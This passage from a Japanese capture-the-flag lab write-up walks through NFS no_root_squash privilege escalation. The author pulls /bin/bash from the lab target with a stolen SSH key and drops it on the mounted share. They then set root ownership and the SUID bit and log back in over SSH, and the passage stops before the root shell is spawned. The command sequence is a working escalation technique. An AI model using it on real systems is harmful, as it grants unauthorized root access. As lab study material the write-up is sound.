 #### 実際にやってみる
今回は秘密鍵をすでに取得しているので、`scp`からコピーしてくる手段をとる。  
```bash
┌──(kali㉿kali)-[/tmp/mount/cappucino]
└─$ scp -i ~/Desktop/NFS/id_rsa cappucino@10.10.144.88:/bin/bash ~/Desktop/NFS
bash  
```
これだけ。実際`ssh`が繋がる環境になかったらり、秘密鍵が手に入んなかったりしたら、上述の通り公式からダウンロードするという手段にならざるを得ないことも留意しておく。  
  
### 4-3.`/bin/bash`を共有ディレクトリに配送
配送といってものコピーするだけなのでそんな難しくはない。  
注意点としては、次に実施する`/bin/bashをrootオーナーに変える`と`/bin/bashにSUIDを設定する`の手順を配送前に行ってしまうと、配送先の環境に戻ってしまう（つまりローカルでの設定が全て消える）ので、とりあえずまず共有ディレクトリに配送する。
```bash
┌──(kali㉿kali)-[/tmp/mount/cappucino/.ssh]
└─$ cp ~/Desktop/NFS/bash /tmp/mount/cappucino 

```
  
### 4-4./bin/bashをrootオーナーに変える
`SUID`は`所有者の権限で実行`するというものなので、所有者をrootに変えてあげる必要がある。
```bash
┌──(kali㉿kali)-[/tmp/mount/cappucino]
└─$ sudo chown root bash 
```
  
### 4-5./bin/bashにSUIDを設定する
これが今回権限昇格する格の部分。しかしやること自体は簡単  
SUIDを設定しbashを実行するということは、所有者であるrootがbashを実行すること同じであるため、実行後のbashプロセスはrootで操作できるという理屈である。
```bash
┌──(kali㉿kali)-[/tmp/mount/cappucino]
└─$ sudo chmod +s bash
```

### 4-6.- `ssh`で侵入
### 4-7.`bash`を起動
ここは同時に実行する。  
まず純粋に`ssh`でリモートホストに侵入  
```bash
┌──(kali㉿kali)-[/tmp/mount/cappucino]
└─$ ssh -i ~/Desktop/NFS/id_rsa cappucino@10.10.144.88
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jun 10 23:10:18 UTC 2024

  System load:  0.0               Processes:           102
  Usage of /:   45.2% of 9.78GB   Users logged in:     0
  Memory usage: 15%               IP address for eth0: 10.10.144.88
  Swap usage:   0%


44 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Jun 10 23:07:18 2024 from 10.9.0.5
```